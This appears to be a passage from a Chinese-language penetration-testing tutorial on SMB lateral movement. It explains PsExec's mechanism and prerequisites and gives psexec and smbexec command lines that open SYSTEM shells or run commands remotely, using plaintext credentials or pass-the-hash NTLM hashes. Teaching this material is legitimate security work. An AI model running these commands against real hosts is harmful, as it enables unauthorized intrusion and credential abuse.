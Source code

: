 [![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559530.png)](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)

# [SMB 协议利用](#toc_smb_1)

## [psexec](#toc_psexec)

psExec 是微软官方提供的一个 Windows 远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在 MSF 框架中也有集成。

psexec 是 windows 下非常好的一款远程命令行工具。psexec 的使用不需要对方主机开方 3389 端口，只需要对方开启 admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec 也是不能使用的，会提示找不到网络路径。由于 PsExec 是 Windows 提供的工具，所以杀毒软件将其列在白名单中。

**PsExec 的基本原理**：

-   通过 ipc$连接，释放二进制文件 psexecsvc.exe 到目标
-   通过服务管理 SCManager 远程创建一个 psexec 服务，并启动服务
-   客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
-   运行结束后删除服务

**psexec 的使用前提：**

-   对方主机开启了 admin$ 共享，如果关闭了 admin$共享，会提示：找不到网络名
-   对方未开启防火墙或放行 445 端口
-   如果是工作组环境，则必须使用 administrator 用户连接（因为要在目标主机上面创建并启动服务），使用其他账号 (包括管理员组中的非 administrator 用户) 登录都会提示访问拒绝访问。
-   如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

```plain
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe 
# -accepteula 禁止弹出许可证对话框 
# -s 以 SYSTEM 权限启动进程
```

如果已经建立 IPC 连接，那么可以直接使用 psexec 连接远程主机

```plain
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```

或者不提取 shell，直接用目标系统的 cmd.exe 的/c 选项在目标主机上执行命令，并得到回显（与前面的 at 命令相似）

```plain
PsExec.exe \\192.168.1.131 <Command>
PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig"
PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"
```

## [smbexec](#toc_smbexec)

**无需先 ipc 链接**，明文或 hash 传递（第三方库）

```plain
smbexec uf9n1x/administrator:123qwe@@192.168.1.131
smbexec ./administrator:123qwe@@192.168.1.131
smbexec -hashes :$HASH$ ./admin@192.168.1.131
smbbexec -hashes :$HASH$ domain/admin@192.168.1.131
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131
```
